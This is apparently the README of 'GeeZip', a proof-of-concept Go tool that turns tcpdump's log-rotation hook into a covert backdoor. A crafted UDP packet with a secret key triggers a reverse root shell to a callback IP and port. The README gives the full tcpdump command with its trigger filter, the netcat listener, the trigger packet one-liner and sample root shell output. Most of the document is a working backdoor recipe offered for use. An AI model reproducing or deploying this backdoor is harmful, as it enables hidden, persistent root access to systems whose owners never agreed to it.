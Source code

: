 # GeeZip

This is a proof of concept tool for abusing the logrotate functionality in tcpdump to execute a remote root shell.

## Building

Download and build geezip:

```
$ go get github.com/klustic/geezip
```

## Usage
GeeZip is designed to execute after a specially crafted UDP packet is received. The UDP packet must be in the following format:

```
+========+====+==+
|   K    | IP |P |
+========+====+==+

Where:
K : 8-byte sequence representing a secret key
IP: 4-byte sequence representing the callback IP
P : 2-byte sequence representing the callback port (big-endian)
```

On the commandline, run this command to prepare your tcpdump backdoor:
```
[root]# tcpdump -Uw output.pcap -z geezip -c 1 -G1 -i lo0 "udp[8:4]=0x6d616769 && udp[12:4]=0x636b6579"
```

On another commandline, prepare netcat to catch the reverse shell:
```
[user]$ nc -nvvl 8000
id

```

Finally, execute this from a third commandline to trigger the logrotate:
```
[user]$ echo -n 'magickey\x7f\x00\x00\x01\x1f\x40' | nc -u 127.0.0.1 9000
```

You should see output from the `id` command on your netcat terminal, and should be able to interact with the backdoor:
```
[user]$ nc -nvvl 8000
id
uid=0(root) gid=0(wheel) groups=0(wheel)...

w
16:37  up  7:10, 8 users, load averages: 1.75 1.78 1.86
USER     TTY      FROM              LOGIN@  IDLE WHAT
lustic   console  -                 9:28    7:09 -
lustic   s001     -                12:22      15 -zsh
lustic   s002     -                12:57       9 /bin/zsh
...

last -2
lustic    ttys007                   Mon Jul 29 16:29   still logged in
lustic    ttys006                   Mon Jul 29 14:22   still logged in

```

## Thanks
This uses Google's epic [gopacket project](https://github.com/google/gopacket)

